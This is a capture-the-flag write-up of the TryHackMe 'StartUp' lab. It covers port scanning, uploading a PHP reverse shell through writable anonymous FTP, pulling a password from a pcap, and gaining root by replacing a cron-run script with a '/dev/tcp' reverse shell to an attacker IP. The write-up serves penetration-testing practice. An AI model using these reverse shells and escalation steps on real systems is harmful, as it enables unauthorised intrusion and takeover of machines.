 # 📝 Writeup – StartUp (TryHackMe)

---

## TL;DR
Anonymous FTP allowed write → website serves that FTP folder → uploaded a PHP reverse shell → got `www-data` → found a suspicious PCAP with creds → `su lennie` → discovered writable script run as root (`/etc/print.sh`) → replaced it with a reverse shell → root. Fast food pwn. 🍔💥

---

## ENUMERATION
Standard first move:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Ports: `21, 22, 80`. Then a focused scan:

```bash
nmap -p21,22,80 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:
![nmap](screenshots/nmap1.png)

---

### PORT 21 — FTP (anonymous)

Anonymous login is allowed. So yeah, we `ftp <IP>` as `anonymous` and poke around. Good news: we have **write access** to `/files/ftp`. That is a gift. 🎁

Screenshot (ftp):
![ftp\_cmds](screenshots/ftp_cmds.png)

Files on the server included `notice.txt` and `important.jpg` — nothing juicy at first glance, but remember: files can hide things. Always assume steg exists.

---

### PORT 80 — Web & dirbusting

Site looks like maintenance mode. Use fuzzing to find hidden dirs:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<IP>/FUZZ
```

Found `/files` — hey that’s our FTP folder being served. Uploading = trivial now. 😎

Screenshot (ffuf):
![ffuf](screenshots/ffuf.png)

---

## EXPLOITATION — upload the shell

Downloaded Pentest Monkey PHP reverse shell, changed the attacker IP in the PHP, then uploaded it to the FTP folder:

```bash
# on attacker
# edit php-rev-shell.php and set LHOST/LPORT
# then upload via ftp:
put local/path/to/php-rev-shell.php php-rev-shell.php
```

Screenshot (upload):
![ftp\_put](screenshots/put_ftp.png)

Visit the uploaded PHP page in browser to trigger it (or hit via HTTP) while listener is up:

```bash
# start listener
nc -nvlp 4444

# then trigger the webshell by browsing to:
http://<IP>/files/ftp/php-rev-shell.php
```

Reverse shell -> `www-data` obtained.    
Screenshot:     
![website](screenshots/website.png)

---

## Foothold -> find the first flag & the juicy PCAPNG

Browsing the site (or filesystem), I found a `recipe` dir with the first flag. There’s also a suspicious folder `incidents` with `suspicious.pcapng`. Since `/var/www/html/files/ftp` is writable, I moved the pcap there for easy download:

```bash
# on target (www-data)
mv /incidents/suspicious.pcapng /var/www/html/files/ftp/suspicious.pcapng
```
Screenshot:   
![transfer\_file](screenshots/transfer_file.png)    

Then grabbed it locally and inspected: 

```bash
strings suspicious.pcapng | less
```

That dumped readable text including a password attempt for user `lennie`.     
Screenshot:    
![strings](screenshots/lennie_pass.png)

---

## Privilege escalation — get `lennie`

We need a proper tty for `su`:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
# then optionally:
stty raw -echo; fg
```

`su lennie` with the password from the pcap — logged in as `lennie`.

---

## `lennie` → root via writable script

In `lennie`’s home there’s `scripts/planner.sh` that calls `/etc/print.sh`. We can’t change `planner.sh` but we can write to `/etc/print.sh` (it’s writable). Now we need to see if it runs as root — for that I used `pspy64` to watch scheduled or background processes.

Transfer `pspy64` to the target (Python HTTP server + `curl`/`wget`) and run it. It showed that `print.sh` is run as root periodically. Screenshot:
![pspy64](screenshots/pspy64.png)

So replace `/etc/print.sh` with a reverse shell that connects back to us as root. Example `print.sh` payload:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/4445 0>&1
```

Make it executable if needed and wait for the cron/job to run, or trigger it if possible. Listener:

```bash
nc -nvlp 4445
```

Reverse shell -> root.     
Screenshot:     
![root\_shell](screenshots/reverse_shell.png)

Grab user/root flags from `/home` and `/root`.

---

## Cleanup & notes

* Always rotate back any changed files if it’s a lab you care about, but in THM boxes it’s fine to leave as-is.
* If the web server doesn’t serve the FTP upload dir, consider SSRF/another vector — but here it did. Lucky us.
* Make sure your PHP shell has the correct `LHOST` before uploading. Rookie mistake: forgetting that and wondering why no shell. 😅

---

## Commands recap (quick)

```bash
# nmap
nmap -p- --min-rate 2000 -vv -T4 <IP>
nmap -p21,22,80 -sC -sV -vv -oN scan.nmap <IP>

# ffuf
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<IP>/FUZZ

# ftp (upload)
ftp <IP>
# anonymous login then:
put php-rev-shell.php

# listener
nc -nvlp 4444

# get pcap and strings
strings suspicious.pcapng

# get tty
python3 -c "import pty; pty.spawn('/bin/bash')"
stty raw -echo; fg

# replace print.sh and listen for root shell
# craft reverse shell script and wait for connection
nc -nvlp 4445
```

---
